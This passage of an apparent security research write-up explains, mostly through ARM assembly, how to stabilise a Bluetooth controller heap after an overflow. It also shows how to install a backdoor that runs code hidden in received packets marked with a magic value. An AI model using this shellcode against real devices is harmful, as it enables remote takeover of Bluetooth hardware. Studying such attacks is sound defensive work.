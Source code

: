 Furthermore, we have to ensure that further allocations of the affected BLOCK do not result in a crash.
As we have just written our shellcode, the head of the free list, our next allocation, is an invalid address.
We set the head of the linked list to an unaffected section of the free-list.


```
ldr r0,=0x205e38
ldr r1,=0x218220
str r1, [r0]
```

The full buffer size is zeroed on initialization, so we will destroy also another patch for the LMP Extended Features Response.
We replace this function with a jump to the original handler in ROM to guarantee a successful connection setup for further attempts.
```
ldr r0, =0xd266c
ldr r1, =0xf000f8df
str r1, [r0]

ldr r0, =0xd2670
ldr r1, =0x6166d
str r1, [r0]
```

Last we install a backdoor.
This will be set as a callback for `RX_Done` within the `virtualFunction` table.
This is invoked for each packet, that is received by the controller.

```
ldr r0, =0x205fcc
ldr r1, =0xd2691
str r1, [r0]

done:
pop {r0-r4,pc}
```

At address `0x200e80` a pointer called dmaActiveRXBuffer is located.
This points to a location in RAM, where the received packet is stored as it is the case for ACL and L2CAP packets.
If no packet is received using the `bcs_dma` method, its value is zero.
We can check within the packet for a magic value.
If this value is present, we jump inside the received packet and execute the containing code.
```
ldr r0,=0x200e80
ldr r0, [r0]
add r0, #12
ldr r1, [r0]
ldr r2,=0xdeadc0de
cmp r1, r2
bne skip
add r0, #5
bx r0

skip:
eor r0, r0
bx lr
```

And here is the final demonstration, putting all of this together.

<iframe src="https://drive.google.com/file/d/14nXFlnHaAMu7pOlefnbiLxVmroF1ekf3/preview" width="640" height="480"></iframe>
